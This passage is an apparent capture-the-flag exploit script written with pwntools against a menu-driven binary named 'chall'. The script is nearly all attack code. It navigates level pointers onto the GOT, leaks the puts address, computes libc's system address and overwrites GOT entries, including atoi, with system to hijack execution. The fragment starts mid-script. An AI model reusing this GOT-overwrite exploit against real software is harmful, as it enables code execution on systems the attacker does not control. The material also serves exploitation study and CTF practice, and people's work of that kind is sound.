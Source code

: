 ```

p.sendlineafter(b'Choice: ', b'2')
p.sendafter(b'Enter level data: ', payload)

# Reset to Level A
p.sendlineafter(b'Choice: ', b'5')
p.sendlineafter(b'Choice: ', b'5')

# Explore to Level C
p.sendlineafter(b'Choice: ', b'4')
p.sendlineafter(b'Enter level index: ', b'1')

# Explore to Level C's next[0] (GOT entry -64)
p.sendlineafter(b'Choice: ', b'4')
p.sendlineafter(b'Enter level index: ', b'0')

# Leak puts address
p.sendlineafter(b'Choice: ', b'3')
p.recvuntil(b'Level data: ')
#puts_addr = u64(p.recv(8).ljust(8, b'\x00'))
got_leak = p.recv(0x20)
puts_addr = u64(got_leak[:8])
log.info(f"Leaked puts address: {hex(puts_addr)}")

# Calculate system address
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
log.info(f"System address: {hex(system_addr)}")

#gdb.attach(p, exe='./chall')
#pause()

# We need to overwrite 0x40 bytes, i.e. we have 8 pointers in GOT to overwrite
"""
.got.plt:0000000000004008 off_4008        dq offset puts          ; DATA XREF: _puts↑r
.got.plt:0000000000004010 off_4010        dq offset write         ; DATA XREF: _write↑r
.got.plt:0000000000004018 off_4018        dq offset printf        ; DATA XREF: _printf↑r
.got.plt:0000000000004020 off_4020        dq offset fgets         ; DATA XREF: _fgets↑r
.got.plt:0000000000004028 off_4028        dq offset malloc        ; DATA XREF: _malloc↑r
.got.plt:0000000000004030 off_4030        dq offset setvbuf       ; DATA XREF: _setvbuf↑r
.got.plt:0000000000004038 off_4038        dq offset atoi          ; DATA XREF: _atoi↑r
.got.plt:0000000000004040 off_4040        dq offset exit          ; DATA XREF: _exit↑r
"""
# We are interested in overwriting atoi with system, but we end up overwriting malloc/setvbuf/atoi/exit
# (because we don't have their values to restore) and keep other pointers with their original values
p.sendlineafter(b'Choice: ', b'2')
p.sendafter(b'Enter level data: ', got_leak + 4*p64(system_addr))
+++
```
